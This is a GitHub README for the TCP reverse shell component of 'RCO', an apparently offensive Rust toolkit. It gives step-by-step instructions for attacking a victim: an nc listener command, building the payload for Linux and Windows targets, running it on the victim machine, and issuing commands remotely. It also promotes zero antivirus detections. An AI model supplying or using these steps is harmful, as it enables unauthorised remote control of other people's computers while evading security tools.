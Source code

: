 # RCO: TCP Reverse Shell

## What it is

RCO's TCP reverse shell is a no-frills [reverse shell](https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/). This means it allows you to run Terminal (Linux)
or Command Prompt (Windows) commands _on the victim machine_ from the attacking machine. Getting a remote shell on a
victim machine usually allows much more control over the victim than other attacks. 

## How it works

Both RCO's Linux and Windows TCP reverse shells work by establishing a [TCP session](https://www.scottklement.com/rpg/socktut/overview.html) from the victim machine
to the attacking machine. Then a Terminal (Linux) or Command Prompt (Windows) process is spun up with its [standard input](https://en.wikipedia.org/wiki/Standard_streams#Standard_input_(stdin)),
[standard output](https://en.wikipedia.org/wiki/Standard_streams#Standard_output_(stdout)), and [standard error](https://en.wikipedia.org/wiki/Standard_streams#Standard_error_(stderr)) all assigned to the TCP session. This means that
input commands and output results are read from and written to (respectively) a TCP stream.

## Using it

1. Start a listener on the attacking machine
    ```commandline
    nc -nlvp 4444
    ```

2. Open [the config file](https://github.com/kmanc/remote_code_oxidation/blob/master/tcp_reverse_shell/src/config.rs) 
and change the IP address and port to match your attacking machine and listener, respectively

3. Compile the executable

    #### For Linux targets
    ```commandline
    cargo build -p tcp_reverse_shell --release
    ```

    #### For Windows targets
    ```commandline
    cargo build --target x86_64-pc-windows-gnu -p tcp_reverse_shell --release
    ```

4. Execute the payload on the victim machine

5. Return to the listener and enter desired commands for the victim machine to run

## Detection rates

[Linux - 0 / 40](https://kleenscan.com/scan_result/d185d1b1ba09f1a9133b72cb1bb12f177b32f3e65962baf7789b03c968ec8e47)

![image](https://user-images.githubusercontent.com/14863147/151023219-84d7ab95-002e-4d20-89c7-264894d72683.png)

[Windows - 0 / 40](https://kleenscan.com/scan_result/e9ffcf8fffd390b68a4cbc9d506571f0618e473732015be748e1960300bc6a85)

![image](https://user-images.githubusercontent.com/14863147/151023325-d917df57-18ce-4e99-b059-968a479b65ce.png)
